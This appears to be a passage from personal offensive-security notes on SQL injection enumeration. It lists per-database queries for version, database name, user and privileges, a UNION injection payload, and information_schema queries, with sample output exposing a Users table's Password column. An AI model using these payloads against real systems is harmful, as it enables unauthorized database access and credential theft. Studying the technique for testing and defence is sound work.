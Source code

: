 ## Querying the Database Type and Version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works. The following are some queries to determine the database version for some popular database servers:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Query the Database Name and User
You can potentially identify both the database name and user by injecting provider-specific queries to see if one works. The following are some queries for some popular database servers:

| Database type | Query                       |
| ------------- | --------------------------- |
| MySQL         | `SELECT database()`         |
| PostgreSQL    | `SELECT current_database()` |
| Microsoft     | `SELECT db_name()`          |
| Oracle        | `SELECT * FROM v$database;` |

| Database type | Query                                              |
| ------------- | -------------------------------------------------- |
| MySQL         | `SELECT current_user()` or `SELECT session_user()` |
| PostgreSQL    | `SELECT current_user` or `SELECT current_role`     |
| Microsoft     | `SELECT user_name()`                               |
| Oracle        | `SELECT user FROM dual`                            |
## Query the Database User Privileges
It is also possible to view a DB user's privileges in order to understand what it can and cannot do.

We can use the following query to check if the current DB User has superuser privileges. If the results returned `Y`, it indicates that the current user has superuser privileges.
```sql
SELECT super_priv FROM mysql.user;
```
Additionally, we can dump other privileges for the current DB user using the following query:
```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges;
```
## Enumerating using `information_schema` Database
The `information_schema` database contains metadata about the database, tables, and columns present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.
> Note: Most databases have an `information_schema` present, except for Oracle databases.

There are a couple of ways an attacker can use the `information_schema` database to fingerprint the database:
### Query `schemata` Table to List All Databases
The table `schemata` in the `informatioN-schema` database contains information about all databases on the server. The `schema_name` column contains all the databases names currently present.
```sql
SELECT 1,schema_name,3,4 FROM information_schema.schemata-- -
```
> Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).

>Note: This enumeration section is usually done by using the UNION operator. To know more about UNION attacks, refer to this [page](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FSQL%20Injection%2FUNION%20Attacks%2FIntroduction).
### Listing Contents of Databases
An attacker can also query the `tables` in the `information_schema` database to view information about all the tables throughout the database. This table contains multiple columns, but the `TABLE_NAME` and `TABLE_SCHEMA` are the most important ones as they store the table names and the table's associated database.
```sql
SELECT * FROM information_schema.tables
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
Additionally, you can also inspect the table structure by submitting the following query:
```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
### Listing Contents of Oracle Databases
On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
```sql
SELECT * FROM all_tables;
```
- You can list columns by querying `all_tab_columns`:
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS';
```